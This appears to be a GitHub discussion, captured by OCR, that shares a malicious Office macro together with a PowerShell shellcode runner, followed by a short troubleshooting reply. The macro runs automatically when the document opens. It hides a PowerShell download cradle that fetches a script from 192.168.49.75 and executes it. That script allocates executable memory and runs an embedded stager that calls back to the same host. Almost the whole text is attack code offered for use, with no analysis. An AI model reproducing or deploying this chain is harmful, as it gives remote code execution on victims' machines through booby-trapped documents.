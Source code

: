 1

Sub MyMacro()
 Dim str As String
 str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.75/run.ps1') | IEX"
 Shell str, vbHide
End Sub
Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub

$Kernel32 = @"
using System;
using System.Runtime.InteropServices;
public class Kernel32 {
 [DllImport("kernel32")]
 public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
flAllocationType, uint flProtect);
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
 public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint
dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr
lpThreadId);
 [DllImport("kernel32.dll", SetLastError=true)]
 public static extern UInt32 WaitForSingleObject(IntPtr hHandle,
 UInt32 dwMilliseconds);
}
"@
Add-Type $Kernel32
[Byte[]] $buf = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0x31,0xff,0xf,0xb7,0x4a,0x26,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0x49,0x75,0xef,0x52,0x8b,0x52,0x10,0x8b,0x42,0x3c,0x1,0xd0,0x57,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x1,0xd0,0x50,0x8b,0x48,0x18,0x8b,0x58,0x20,0x1,0xd3,0x85,0xc9,0x74,0x3c,0x31,0xff,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xc0,0xc1,0xcf,0xd,0xac,0x1,0xc7,0x38,0xe0,0x75,0xf4,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,0x68,0x6e,0x65,0x74,0x0,0x68,0x77,0x69,0x6e,0x69,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0x31,0xdb,0x53,0x53,0x53,0x53,0x53,0xe8,0x3e,0x0,0x0,0x0,0x4d,0x6f,0x7a,0x69,0x6c,0x6c,0x61,0x2f,0x35,0x2e,0x30,0x20,0x28,0x57,0x69,0x6e,0x64,0x6f,0x77,0x73,0x20,0x4e,0x54,0x20,0x36,0x2e,0x31,0x3b,0x20,0x54,0x72,0x69,0x64,0x65,0x6e,0x74,0x2f,0x37,0x2e,0x30,0x3b,0x20,0x72,0x76,0x3a,0x31,0x31,0x2e,0x30,0x29,0x20,0x6c,0x69,0x6b,0x65,0x20,0x47,0x65,0x63,0x6b,0x6f,0x0,0x68,0x3a,0x56,0x79,0xa7,0xff,0xd5,0x53,0x53,0x6a,0x3,0x53,0x53,0x68,0xbb,0x1,0x0,0x0,0xe8,0x22,0x1,0x0,0x0,0x2f,0x68,0x68,0x48,0x52,0x35,0x69,0x62,0x78,0x33,0x6c,0x36,0x4d,0x76,0x49,0x32,0x39,0x37,0x52,0x5f,0x6f,0x6e,0x51,0x58,0x71,0x4f,0x35,0x7a,0x41,0x73,0x57,0x5a,0x37,0x31,0x33,0x55,0x5f,0x70,0x39,0x47,0x6e,0x71,0x66,0x4f,0x5a,0x37,0x59,0x61,0x52,0x42,0x6c,0x73,0x6c,0x41,0x45,0x47,0x6f,0x35,0x39,0x33,0x51,0x75,0x58,0x4e,0x33,0x67,0x4d,0x30,0x77,0x6e,0x41,0x76,0x68,0x4d,0x71,0x6d,0x65,0x46,0x62,0x6a,0x68,0x34,0x32,0x52,0x49,0x32,0x6c,0x6f,0x48,0x2d,0x5a,0x37,0x63,0x78,0x2d,0x61,0x61,0x50,0x31,0x4f,0x74,0x75,0x54,0x43,0x71,0x48,0x43,0x6b,0x74,0x64,0x65,0x50,0x54,0x4f,0x74,0x77,0x34,0x35,0x6b,0x4a,0x66,0x37,0x36,0x6c,0x46,0x68,0x48,0x65,0x36,0x34,0x36,0x54,0x43,0x39,0x61,0x41,0x54,0x5f,0x31,0x46,0x6a,0x37,0x6e,0x32,0x51,0x4b,0x0,0x50,0x68,0x57,0x89,0x9f,0xc6,0xff,0xd5,0x89,0xc6,0x53,0x68,0x0,0x32,0xe8,0x84,0x53,0x53,0x53,0x57,0x53,0x56,0x68,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x96,0x6a,0xa,0x5f,0x68,0x80,0x33,0x0,0x0,0x89,0xe0,0x6a,0x4,0x50,0x6a,0x1f,0x56,0x68,0x75,0x46,0x9e,0x86,0xff,0xd5,0x53,0x53,0x53,0x53,0x56,0x68,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x14,0x68,0x88,0x13,0x0,0x0,0x68,0x44,0xf0,0x35,0xe0,0xff,0xd5,0x4f,0x75,0xcd,0xe8,0x4a,0x0,0x0,0x0,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x68,0x0,0x0,0x40,0x0,0x53,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x53,0x89,0xe7,0x57,0x68,0x0,0x20,0x0,0x0,0x53,0x56,0x68,0x12,0x96,0x89,0xe2,0xff,0xd5,0x85,0xc0,0x74,0xcf,0x8b,0x7,0x1,0xc3,0x85,0xc0,0x75,0xe5,0x58,0xc3,0x5f,0xe8,0x6b,0xff,0xff,0xff,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x34,0x39,0x2e,0x37,0x35,0x0,0xbb,0xe0,0x1d,0x2a,0xa,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5
$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")

2

yes it does, just change the vba powershell download cradle to run.txt after copying the run.ps1 to run.txt in web root